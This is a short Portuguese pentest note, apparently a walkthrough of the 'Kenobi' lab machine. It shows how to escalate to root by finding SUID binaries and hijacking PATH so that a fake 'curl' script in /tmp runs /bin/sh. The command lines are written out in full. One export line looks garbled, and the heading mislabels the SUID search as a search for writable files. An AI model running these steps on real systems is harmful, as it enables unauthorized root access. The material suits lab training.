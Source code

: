 ```yaml
---
{"dg-publish":true,"permalink":"/pentest/priv-escalation/achar-arquivos-que-tem-permissoes-de-serem-escritos/"}
---
```


## Achar arquivos que tem permissões de serem escritos

```shell
find / -perm -u=s -type f 2>/dev/null
```

Foi achado o arquivo menu, sendo assim, o menu tem 3 opções.

1. Status check
2. Kernel version
3. ifconfig

- Por que isto é importante?
	- Quando você usa um comando como o "`status check`", basicamente você precisa de um programa pra rodar ele. O usuário final não necessita saber, porém este programa é chamado `curl`
	- ![](https://i.imgur.com/1xMRzfl.png)  


Sendo assim podemos manipular o estado do `curl`, afinal ele só roda se tivermos privilegios root, então porquê ele está rodando? Alguém dentro do servidor manipulou ele para liberar acesso a algum outro usuário, portanto podemos utilizar isso ao nosso favor.

- Vamos copiar a `zsh` do linux, nomea-la `curl` e mandar ela para `/tmp`
- Mudar a permissão dela para 777 com: `chmod 777 curl`:
```shell
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl 
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH/user/bin/menu
```